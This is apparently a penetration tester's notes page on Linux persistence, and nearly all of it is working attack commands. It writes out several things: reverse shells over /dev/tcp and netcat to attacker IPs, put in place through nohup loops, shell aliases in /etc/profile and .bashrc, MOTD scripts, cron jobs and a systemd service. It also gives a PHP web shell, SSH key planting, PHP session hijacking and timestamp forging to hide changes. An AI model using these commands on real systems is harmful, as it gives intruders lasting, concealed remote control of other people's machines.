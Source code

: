 # Linux Persistence

For general overview of persistance that OS neutral: [[Persistence]].

## Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with touch cp the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasing

```bash
# If have sudo or permission to propagate to all usersasdasd
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$reversehell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```

#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
web root /var/www/html
`touch shell.php` and add the below:
Or add within a file of this directory
Change the 'cmd' paramtre to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron
```bash
# newlines required
CT="\n1 * * * *   root    ./dev/shm/met.elf\n"
printf "$CT" | crontab -

```

As a one-liner
```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/$ip/$port 0>&1' >> ~/.bashrc
```
OR pam_unix.so [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```

#### Systemd

[From this article Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
```bash
touch ~/.config/system/root/persistence.service
# Make p.service 
[Unit]  
Description=Just a reverse shell

[Service]  
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8008 0>&1'  
Restart=always  
RestartSec=60

[Install]  
WantedBy=default.target
```

Enable and start service
```bash
systemctl --user enable persistence.service
systemctl --user start persistence.service 
# systemd --user only started on login
# Configure with root run:
loginctl enable-linger
# Check if already set:
/var/lib/systemd/linger/$username_is_here_if_enabled
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
[Alexey Petrenko's Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
